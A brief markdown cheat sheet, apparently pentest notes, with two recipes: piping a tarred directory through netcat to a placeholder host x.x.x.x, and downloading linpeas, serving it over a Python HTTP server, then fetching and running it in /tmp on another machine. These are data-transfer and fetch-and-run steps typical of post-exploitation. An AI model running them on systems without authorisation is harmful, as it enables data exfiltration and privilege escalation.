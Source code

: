 ## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc x.x.x.x 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve linpeas
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
